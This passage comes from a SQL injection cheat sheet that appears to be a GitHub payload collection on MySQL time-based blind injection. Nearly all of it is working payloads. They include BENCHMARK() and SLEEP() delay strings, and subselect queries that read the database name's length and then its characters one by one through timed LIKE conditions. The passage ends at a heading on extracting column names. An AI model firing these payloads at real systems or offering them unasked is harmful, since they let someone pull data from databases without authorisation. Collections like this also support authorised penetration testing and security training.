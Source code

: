 ## MYSQL Time Based

The following SQL codes will delay the output from MySQL.

* MySQL 4/5 : [`BENCHMARK()`](https://dev.mysql.com/doc/refman/8.4/en/select-benchmarking.html)

    ```sql
    +BENCHMARK(40000000,SHA1(1337))+
    '+BENCHMARK(3200,SHA1(1))+'
    AND [RANDNUM]=BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))
    ```

* MySQL 5: [`SLEEP()`](https://dev.mysql.com/doc/refman/8.4/en/miscellaneous-functions.html#function_sleep)

    ```sql
    RLIKE SLEEP([SLEEPTIME])
    OR ELT([RANDNUM]=[RANDNUM],SLEEP([SLEEPTIME]))
    XOR(IF(NOW()=SYSDATE(),SLEEP(5),0))XOR
    AND SLEEP(10)=0
    AND (SELECT 1337 FROM (SELECT(SLEEP(10-(IF((1=1),0,10))))) RANDSTR)
    ```

### Using SLEEP in a Subselect

Extracting the length of the data.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '%')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '___')# 
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE '_____')#
```

Extracting the first character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'A____')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'S____')#
```

Extracting the second character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SA___')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SW___')#
```

Extracting the third character.

```sql
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWA__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWB__')#
1 AND (SELECT SLEEP(10) FROM DUAL WHERE DATABASE() LIKE 'SWI__')#
```

Extracting column_name.
